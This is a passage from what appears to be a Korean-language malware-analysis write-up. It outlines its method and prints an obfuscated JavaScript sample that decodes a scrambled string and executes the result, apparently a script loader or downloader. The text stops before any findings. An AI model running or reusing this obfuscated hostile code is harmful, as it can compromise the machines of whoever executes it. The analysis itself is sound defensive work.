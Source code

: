 

##### 1. 분석 과정

	1. 일단 해당 코드에 걸린 난독화를 최대한 보기 쉽게 바꾸고, 이후에 코드 flow를 파악한다.
	2. Execute되는 Script의 악성 행위를 분석한다.



##### 2. 분석 시작

개행마저 안 되어 있기 때문에,  [Online JavaScript Beautifier](https://beautifier.io/)를 통해 코드를 1차 정리 해 주겠다.

```javascript
function fW4(gT78, QU36) {
    oJ47 = SK92;
    pl56 = qN252;
    while (pl56 < Mg89) {
        Vw3 = kZ37("c\h\arAt", gT78, pl56);
        if (pl56 % (KN79 + KN79)) oJ47 = oJ47 + Vw3;
        else oJ47 = Vw3 + oJ47;
        pl56++;
    }
    return (oJ47);
}

function TZ76(hH33) {
    KN79 = hH33;
    xj34 = KN79 + hH33 * KN79 + hH33;
    Mg89 = 2269;
}

function VX30() {
    FQ96 = kZ37("sp\l\it", ew84, Li29);
}

function kZ37(iy87, tS71, cl45) {
    QO71 = tS71[iy87](cl45);
    return QO71;
}

function nb5() {
    FQ96[xj34](FQ96[KN79])(FQ96[KN79]);
}

function EO49(Fg50) {
    AP9826 = 'fir/opc\\r\'Stu+W.m] s.5{lp5 ehD)epj1p\'[\\(-4+2=8\"2\\a=2?Z)2e+)2h\\0\'h) /t;,/l \":\\}xp@ et\"e\\tel+hgs4\\b\'4eu Y n,y{i\\+\'= \"T\\S\"E\\y@G+4\"\\\\\'y3((Y fn4=Oe4 xp,Seo yd.f4n6a3i8l..rsr3Wee4 )py{;lSy a(rWc(tre  8(f;6\\i\".) @s0;\\e\"t3n+x+dye0(YT7)4e,;4s2 +n(}\\o\"c]p@a\\s\"t\\e\"crr,ht.\\(\"6se\\8\")br){uW; s  r\\=\"ev [ta3)ur4(r ygnfSn S if8rra5atl vSs= oe {t;S . y))}40( 30mi.2ofr d e=n(p=aWl=rra .8csh6eut.(tas/aMt(\' (\\4\\W=fd( ]{24-254[}6Y9)QyF/}  g;;1,-)2 +\\2\'3foPfu=T2n3TocfH t;L)i)M2o3Xonfr( (e](\"v\"S+r\"dte\"9+S\"7\".+)\"2r \"L+{\"M\" +X\"rqS\"e+M\"t\"\\+\'\"us(\"r+t\"n\"c[ hetSajMt b{r O)i e9n0t6g2a9.0e5f1r r<C o2.3motfC(p heilairhrwc C;S6o W=d  2e3=o(f ;p)6(ae8srorlsCW.e) eIu{rnt  t,)2(93ASO (de<l9i F7t5x,e5T1eDt0aje)r(C+. 231eQ0Cl;))i(;thi uwQ}. t)p;i;r0c S WF =)Q) 2995A6O5([sDt3sji]x E(e;lfi]FS.\\2\"18QmC5(o )fci(;.\")pom;td. 7-6W1d9S2n1cvaHr\\-\\i\"e+p)b2t-.4.(w]Q\"wru\"w+i\"\\e\"dtl,o(\"\\+\"\")Fel;ad\" +.\"}ijc \"4+}\"oe p.Setw\"l+w\"sewGe\"\\[\"2 1,Q{C\\=\"2 9lAWOp;S).\"ctdcrecjiblOpm-ettms.yeSsejlliaFe.ngenyiptwp(i.r2ctS2\"s(2tec2etj2b.O)ewt;awe rwC}.\\t\"p i[rjc SDW= 5=  5241+Q8C+;a\';\'Z=}r\'e)p)b(ufnox3I2l)y;qtrcogtmcaucr=tFsQn9o6c;';
    qN252 = Fg50;
    SK92 = "";
}
Li29 = "qylIx";
EO49(0);
TZ76(1);
ew84 = fW4(AP9826, qN252);
VX30();

```